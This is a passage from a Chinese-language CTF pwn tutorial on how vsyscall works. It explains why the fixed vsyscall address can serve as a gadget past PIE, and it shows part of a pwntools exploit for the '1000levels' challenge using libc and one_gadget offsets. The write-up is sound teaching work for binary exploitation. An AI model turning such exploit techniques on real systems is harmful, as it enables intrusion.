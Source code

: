 ```
r.recv()
#gdb.attach(r)
r.sendline("yes")
sleep(0.2)
r.interactive()
```



## 三、vdso/vsyscall

vsyscall是什么呢？

通过查阅资料得知，vsyscall是第一种也是最古老的一种用于加快系统调用的机制，工作原理十分简单，许多硬件上的操作都会被包装成内核函数，然后提供一个接口，供用户层代码调用，这个接口就是我们常用的int 0x80和syscall+调用号。

当通过这个接口来调用时，由于需要进入到内核去处理，因此为了保证数据的完整性，需要在进入内核之前把寄存器的状态保存好，然后进入到内核状态运行内核函数，当内核函数执行完的时候会将返回结果放到相应的寄存器和内存中，然后再对寄存器进行恢复，转换到用户层模式。

这一过程需要消耗一定的性能，对于某些经常被调用的系统函数来说，肯定会造成很大的内存浪费，因此，系统把几个常用的内核调用从内核中映射到用户层空间中，从而引入了vsyscall

通过命令“cat /proc/self/maps| grep vsyscall”查看，发现vsyscall地址是不变的

[![](https://s2.ax1x.com/2019/04/30/EGujnf.png)](https://s2.ax1x.com/2019/04/30/EGujnf.png)

使用gdb把vsyscall从内存中dump下来，拖到IDA中分析

[![](https://s2.ax1x.com/2019/04/30/EGuxHS.png)](https://s2.ax1x.com/2019/04/30/EGuxHS.png)

可以看到里面有三个系统调用，根据对应表得出这三个系统调用分别是__NR_gettimeofday、__NR**time、**_NR_getcpu

```
#define __NR_gettimeofday 96
#define __NR_time 201
#define __NR_getcpu 309
```

这三个都是系统调用，并且也都是通过syscall来实现的，这就意味着我们有了一个可控的syscall

拿一道CTF真题来做为例子（1000levels）：

程序具体漏洞这里不再过多的解释，只写涉及到利用vsyscall的步骤

当我们直接调用vsyscall中的syscall时，会提示段错误，这是因为vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错

所以，我们可以直接利用的地址是0xffffffffff600000、0xffffffffff600400、 0xffffffffff600800

程序开启了PIE，无法从该程序中直接跳转到main函数或者其他地址，因此可以使用vsyscall来充当gadget，使用它的原因也是因为它在内存中的地址是不变的

#### <a class="reference-link" name="exp%EF%BC%9A"></a>exp：

```
from pwn import * 

io =process('1000levels', env=`{`'LD_PRELOAD':'./libc.so.6'`}`)

libc_base = -0x456a0                    #减去system函数离libc开头的偏移
one_gadget_base = 0x45526            #加上one gadget rce离libc开头的偏移
vsyscall_gettimeofday = 0xffffffffff600000
def answer():
    io.recvuntil('Question: ') 
    answer = eval(io.recvuntil(' = ')[:-3])
    io.recvuntil('Answer:')
    io.sendline(str(answer))
io.recvuntil('Choice:')
io.sendline('2')
io.recvuntil('Choice:')
io.sendline('1')    
io.recvuntil('How many levels?')
io.sendline('-1')
io.recvuntil('Any more?')
```